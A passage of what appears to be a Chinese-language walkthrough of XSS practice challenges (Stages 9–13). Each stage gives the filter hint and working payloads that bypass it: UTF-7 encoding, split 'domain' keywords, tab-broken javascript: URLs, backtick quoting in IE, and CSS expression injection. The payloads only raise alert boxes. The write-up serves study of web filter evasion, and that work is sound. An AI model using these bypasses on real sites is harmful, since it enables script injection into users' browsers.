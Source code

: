IE 访问的时候就会执行弹窗.

以此类推, 题目实体化了尖括号, 引号等字符串, 那就能用 UTF-7 编码然后绕过后端的过滤.

查看源代码, 有个 charset 参数可控, 抓包的时候更改为 UTF-7.

这里好像不能直接输入 `document.domain`, 只能用编码, 记得 urlencode 一下.

`+/v8 +ACI- onmouseover=alert(d+AG8AYw-u+AG0-en+AHQALg-d+AG8AbQBh-in)+AD4-`

## Stage 10

`Hint: s/domain//g;`

测试的时候发现 domain 被替换为空, 但只进行了一次替换.

同样两种方法, on 事件和闭合标签.

`1" onmouseover="alert(document.ddomainomain)`

`"><svg/onload=alert(document.ddomainomain)>`

## Stage 11

`Hint: "s/script/xscript/ig;" and "s/on[a-z]+=/onxxx=/ig;" and "s/style=/stxxx=/ig;"`

script 和 on 事件都被过滤了, 不过还是能用 a 标签.

本来想用 data 协议的, 后来发现并不能弹出 `document.domain` 的值.

浏览器会很神奇的把 tab 去除.

`<a href="j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t:alert(document.domain)">click</a>`

## Stage 12

`Hint: "s/[\x00-\x20\<\>\"\']//g;"`

题目几乎过滤了所有能进行闭合的字符.

但源代码中的 value 是没有用引号括起来的, 只要找个功能类似于引号的字符就行.

简单 fuzz 一下发现并没有什么可利用的字符, 后来又在 IE 测试了一遍, 反引号能够替代引号闭合字符串.

```
``onmouseover=alert(document.domain);
```

## Stage 13

`Hint: style attribute`

css 的 xss, 两种方法, 第二种只能在 IE 下执行.

`background:url(javascript:alert(document.domain));`

`x:expression(alert(document.domain));`

## Stage 14
